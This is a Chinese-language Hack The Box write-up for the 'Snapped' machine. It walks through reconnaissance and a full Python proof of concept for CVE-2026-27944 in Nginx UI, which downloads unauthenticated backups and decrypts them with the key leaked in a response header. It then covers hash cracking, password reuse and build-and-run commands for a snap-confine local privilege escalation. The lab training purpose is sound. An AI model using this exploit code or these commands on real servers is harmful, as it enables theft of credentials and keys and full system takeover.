# HTB Machines Snapped

## 信息收集

### 端口扫描

```bash
nmap --min-rate 5000 -T4 -p- 10.129.29.35
```



#### 详细扫描

```bash
nmap -sCV --min-rate 5000 -T4 -p22,80 10.129.29.35
```



### 子域名枚举

```bash
wfuzz -c -w '/root/Desktop/SecLists/Discovery/DNS/subdomains-top1million-5000.txt' -u http://snapped.htb -H "Host:FUZZ.snapped.htb" --hc 302
```



### 目录扫描

#### snapped.htb

```bash
dirsearch -u http://snapped.htb
```



#### admin.snapped.htb

```bash
dirsearch -u http://admin.snapped.htb
```



## 漏洞利用

### CVE-2026-27944 - Nginx UI: Unauthenticated Backup Download with Encryption Key Disclosure 

参考链接: [https://www.freebuf.com/articles/vuls/473270.html](https://www.freebuf.com/articles/vuls/473270.html)

- **漏洞描述**
    - 该漏洞源于未授权访问与敏感信息泄露的双重缺陷，攻击者可无需任何认证，直接下载系统完整备份并获取解密密钥，进而窃取管理员凭据、SSL 私钥、数据库信息等核心敏感数据，最终实现服务器完全接管。
- **漏洞影响**
    - Nginx UI < 2.3.3
- **漏洞修复**
    - 官方已发布安全补丁，请及时更新至最新版本：Nginx UI >= 2.3.3

#### Backup未授权访问

**Nginx UI** 的`/api/backup`接口未配置身份认证中间件，攻击者可直接发送 **GET** 请求访问该接口，无需登录即可下载系统完整加密备份。



更危险的是，接口响应头中 **X-Backup-Security** 字段会**明文泄露** AES-256 **加密密钥**及**初始化向量**（IV）。攻击者获取备份文件与解密密钥后，可立即解密，获取管理员账号、SSL 私钥、Nginx 配置等关键信息。

```bash
# KEY
oHsYHD65Kuaj4SikbbBZGO9WKnfN/CQveWw4pLRHw5k=
# IV
LFOiuOorZ0eKy3jGc2jWGA==
```



#### 解密备份文件

```python
#poc
#!/usr/bin/env python3
import argparse
import base64
import urllib.request
import zipfile
from io import BytesIO
from Crypto.Cipher import AES

def download_and_decrypt(target_url, output_dir):
    # 1. 发起无认证请求
    req = urllib.request.Request(f"{target_url.rstrip('/')}/api/backup", method="GET")
    resp = urllib.request.urlopen(req)
    
    # 2. 从头部提取密钥
    security_header = resp.headers.get('X-Backup-Security', '')
    if ':' not in security_header:
        print("[-] 未找到密钥头")
        return
    key_b64, iv_b64 = security_header.split(':')
    encrypted_backup = resp.read()
    
    print(f"[*] 从响应头获取密钥: {key_b64}")
    print(f"[*] 初始化向量IV: {iv_b64}")
    
    # 3. 准备解密
    key = base64.b64decode(key_b64)
    iv = base64.b64decode(iv_b64)
    
    if len(key) != 32:
        print(f"[-] 密钥长度异常: {len(key)}字节")
        return
    if len(iv) != 16:
        print(f"[-] IV长度异常: {len(iv)}字节")
        return
    
    print(f"[*] AES-256密钥长度: {len(key)}字节")
    print(f"[*] IV长度: {len(iv)}字节")
    
    # 4. 解密函数
    def decrypt_file(encrypted_data, key, iv):
        cipher = AES.new(key, AES.MODE_CBC, iv)
        # 移除可能的PKCS#7填充
        decrypted = cipher.decrypt(encrypted_data)
        padding_len = decrypted[-1]
        if padding_len <= 16:
            decrypted = decrypted[:-padding_len]
        return decrypted
    
    # 5. 解密备份包
    print("[*] 开始解密备份包...")
    with zipfile.ZipFile(BytesIO(encrypted_backup), 'r') as outer_zip:
        for name in outer_zip.namelist():
            print(f"[*] 处理文件: {name}")
            encrypted_content = outer_zip.read(name)
            decrypted_content = decrypt_file(encrypted_content, key, iv)
            
            if name == 'hash_info.txt':
                print(f"[+] hash_info.txt内容: {decrypted_content.decode()}")
            elif name.endswith('.zip'):
                # 这是另一个zip，需要进一步提取
                inner_zip = zipfile.ZipFile(BytesIO(decrypted_content), 'r')
                for inner_name in inner_zip.namelist():
                    print(f"[-] 提取: {inner_name}")
                    inner_zip.extract(inner_name, output_dir)

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='CVE-2026-27944 Nginx UI 信息泄露漏洞POC')
    parser.add_argument('--target', required=True, help='目标URL，如http://192.168.1.100:9000')
    parser.add_argument('--output', default='./stolen_data', help='输出目录')
    args = parser.parse_args()
    
    download_and_decrypt(args.target, args.output)
    print(f"[+] 解密完成！文件保存在 {args.output} 目录")
```



解压文件中包含`database.db`文件



```bash
# 解密数据库文件
hashcat -m 3200 -a 0 hash /usr/share/wordlists/rockyou.txt
```

`jonathan:linkinpark`



### Jonathan

密码复用`jonathan:linkinpark`



### CVE-2026-3888 — snap-confine / systemd-tmpfiles Local Privilege Escalation

[https://github.com/TheCyberGeek/CVE-2026-3888-snap-confine-systemd-tmpfiles-LPE](https://github.com/TheCyberGeek/CVE-2026-3888-snap-confine-systemd-tmpfiles-LPE)

- **漏洞描述**
    - 在 Ubuntu Desktop 24.04+ 上，利用 snap-conlimit 和 systemd-tmpfiles 之间的 TOCTOU 竞态条件，将本地权限从无特权用户提升为完全 root。
- **漏洞影响**
    - Ubuntu 24.04+ 未打补丁的 snapd（< 2.74.2）
- **漏洞修复**
    - 升级 snapd 到 2.74.2 或更高版本。

#### 要求

- Ubuntu 24.04+ 以及 snapd (< 2.74.2)
- `snap-confine` 必须是 SUID-root (`-rwsr-xr-x 1 root root /usr/lib/snapd/snap-confine`)
- 需要安装 snap 应用，例如 ( firefox 或 snap-store 等)
- `systemd-tmpfiles-clean.timer` 必须是 active 状态
- `busybox` 必须在目标上可用 (`/usr/bin/busybox`)



#### Build

```bash
gcc -O2 -static -o exploit exploit_suid.c
gcc -nostdlib -static -Wl,--entry=_start -o librootshell.so librootshell_suid.c
```

#### Exploit

```bash
./exploit librootshell.so
```

